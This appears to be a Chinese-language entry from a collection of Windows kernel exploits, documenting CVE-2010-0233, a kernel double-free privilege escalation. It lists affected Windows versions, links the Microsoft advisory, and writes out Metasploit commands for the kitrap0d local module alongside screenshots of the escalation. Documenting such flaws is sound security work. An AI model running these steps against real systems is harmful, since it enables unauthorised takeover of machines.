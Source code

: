 ### CVE-2010-0233

#### 描述

内核中的双重免费漏洞允许本地用户通过精心设计的应用程序获得特权。

#### 影响版本

| Product             | Version | Update | Edition | Tested |
| ------------------- | ------- | ------ | ------- | ------ |
| Windows 2000        | SP4     |        |         |        |
| Windows Server 2003 |         | SP2    |         |        |
| Windows Server 2008 | -       | SP2    | Itanium |        |
| Windows Server 2008 |         | SP2    | X64     |        |
| Windows Server 2008 |         |        | Itanium |        |
| Windows Server 2008 |         |        | X32     |        |
| Windows Server 2008 |         |        | X64     |        |
| Windows Server 2008 | SP2     | X32    |         |        |
| Windows Vista       |         |        |         |        |
| Windows Vista       | SP1     |        |         |        |
| Windows Vista       | SP2     |        |         |        |
| Windows Xp          | -       |        |         |        |
| Windows Xp          | SP3     |        |         |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2010-0233
```

#### 利用方式

编译环境

- nmake 2013

测试系统windows server 2003 sp2 x86

![25](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86.gif?raw=true)

> msf利用

测试系统windows server 2003 sp2 x86，执行以下代码

```
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 3
run
```

可以看到当前权限是最低的

![image-20200823123824229](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86_msf.png?raw=true)

然后执行命令提权

![image-20200823123945054](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86_msf2.png?raw=true)